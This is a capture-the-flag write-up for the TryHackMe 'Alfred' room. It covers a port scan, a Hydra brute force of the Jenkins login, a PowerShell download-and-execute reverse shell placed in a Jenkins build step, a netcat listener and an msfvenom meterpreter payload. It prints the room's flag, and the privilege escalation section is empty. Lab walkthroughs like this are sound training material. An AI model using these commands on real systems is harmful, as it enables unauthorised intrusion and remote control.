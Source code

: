 # [Alfred - TryHackMe](https://tryhackme.com/room/alfred) | Cyanyde

Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

## Credits

- Created by [try hack me](https://tryhackme.com/p/tryhackme)
- Room type: premium

## Initial Access

### How many ports are open?

- Scan ports and versions with Nmap
    - `nmap -sV -sC -T5 <target ip> -oN jenkinsNmap`
        - **-sV** flag to scan service version
        - **-sC** flag to enable default script scan
        - **-T5** to set timing template to fastest (no rate limit in this room)
        - **-oN <filename>** to put normal output into file

> There are **3** TCP ports open

### What is the username and password for the login panel? (in the format username:password)

- The site hosted on port 8080 is a login page
- There is also a /robots.txt directory

```
# we don't want robots to click "build" links
User-agent: *
Disallow: /
```

- Use Hydra to brute force the admin password for the portal
    - Use a proxy to find the format of the login page (Firefox or BurpSuite will work fine)
        - Format is j_username=^USER^&j_password=^PASS^
    - `hydra -l admin -P /usr/share/wordlists/rockyou.txt <target ip> http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid" -s 8080`

> The username and password combination that is returned is **admin:admin**

### What is the user.txt flag?

- Find a way to execute code from inside the portal
    - Jenkins is a server that allows developers to build, test, and deploy their codebase
    - There is currently an existing project in the Jenkins portal named "project"
    - The project allows you to add Windows batch commands as part of the build instructions
- Set up a reverse shell to the machine
    - powershell iex (New-Object Net.WebClient).DownloadString('http://<attack machine ip>:<attack machine port 1>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <attack machine ip> -Port <attack machine port 2>
    - Click *apply* and *save* after adding reverse shell command in Jenkins build instructions
    - Before building (and running the reverse shell) on the Jenkins server, set up listeners on attack machine - **Important note**: In the above, attack machine port 1 should be replaced by the port of the *HTTP Web Server* and attack machine port 2 should be replaced by the port of the *Netcat listener*
        - HTTP Server to host initial reverse shell script
            - Use this [script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) (options are already configured in the one-liner)
            - Navigate to the folder the script is downloaded to on the attack machine
            - `python3 -m http.server <port>` to serve everything in that folder (`python -m SimpleHTTPServer <attack machine port 1> for older Python versions)
        - Netcat Listener to receive reverse shell connection
            - `nc -lvnp <attack machine port 2>` to listen on the port set in the powershell one-liner (may need to use `ncat -lvnp <attack machine port 2>` for newer distros)
    - Build the "project" in Jenkins that will reach out to pull the reverse shell
- Once connected to machine, change to `C:\Users\` directory and fine the flag in *bruce*'s desktop folder

> <details><summary>The flag is </summary>79007a09481963edf2e1321abd9ae2a0</summary>

## Switching Shells

- Privilege escalation will be much easier with a meterpreter shell (hosted through metasploit)
- Generate meterpreter reverse shell
    - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<attack machine IP> LPORT=<attack machine port> -f exe -o hehe.exe` to generate reverse shell with meterpreter
    - **REMINDER**: The port must be different than the one used for the original reverse shell

> The shell generated should have a final size of **73802**

## Privilege Escalation

-
